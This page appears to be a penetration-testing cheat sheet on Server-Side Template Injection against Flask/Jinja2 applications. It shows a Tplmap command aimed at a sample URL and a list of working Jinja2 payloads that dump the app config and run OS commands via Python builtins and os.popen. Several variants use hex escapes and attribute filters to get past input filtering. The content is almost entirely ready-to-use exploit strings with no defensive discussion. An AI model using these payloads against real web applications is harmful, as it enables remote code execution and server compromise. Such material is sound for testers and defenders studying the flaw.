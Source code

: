 ```yaml
---
title: Server-Side Template Injection
desc: 
tags: [Flask, Injection, Jinja, Python, Server, Template, Web]
alts: []
render_with_liquid: true
---
```


{% raw %}

## 1. Automation

1. **Use Tplmap**

    **[Tplmap](https://github.com/epinna/tplmap){:target="_blank"}** is a program for Server-Side Template Injection and Code Injection.

    ```sh
    ./tplmap.py -u http://vulnerable.com/?name=test
    ```

<br />

## 2. Manual Injection

1. **Flask Jinja2**

    Flask is a micro web framework written in Python.

    1. **Basic**

        ```
        {{ 4*2 }}
        {{ config.items() }}
        ```

    2. **OS Command Injection**

        ```
        {{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}

        {{ request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']() }}

        {{ request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']() }}

        {{ request|attr('application')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')('os')|attr('popen')('id')|attr('read')() }}

        {{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')() }}
        ```

{% endraw %}